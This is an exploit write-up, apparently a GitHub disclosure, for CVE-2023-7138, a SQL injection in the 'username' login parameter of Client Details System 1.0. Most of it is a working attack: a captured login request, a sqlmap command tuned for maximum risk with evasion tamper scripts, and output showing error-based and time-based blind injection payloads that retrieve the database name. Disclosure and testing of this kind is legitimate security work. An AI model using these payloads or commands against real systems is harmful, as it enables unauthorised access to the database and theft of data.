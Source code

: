 # CVE-2023-7138_Client_Details_System-SQL_Injection_2
+ **Exploit Title:** CVE-2023-7138_Client_Details_System-SQL_Injection_2
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7138

## References: 
+ **CVE-2023-7138:** https://vuldb.com/?id.249141
+ https://www.cve.org/CVERecord?id=CVE-2023-7138
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7138

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'username' in "/clientdetails/admin". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/admin/ HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/clientdetails/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=P@ssw0rd
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 6680 FROM(SELECT COUNT(*),CONCAT(0x7162716271,(SELECT (ELT(6680=6680,1))),0x716b767171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- zYzR&login=&password=P@ssw0rd

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 7749 FROM (SELECT(SLEEP(5)))ysnA)-- MdSB&login=&password=P@ssw0rd
---
[15:08:19] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:08:20] [INFO] fetching current database
[15:08:20] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/8fcb4ea7-ff09-4ea1-b8e7-5730ce9a41a8)
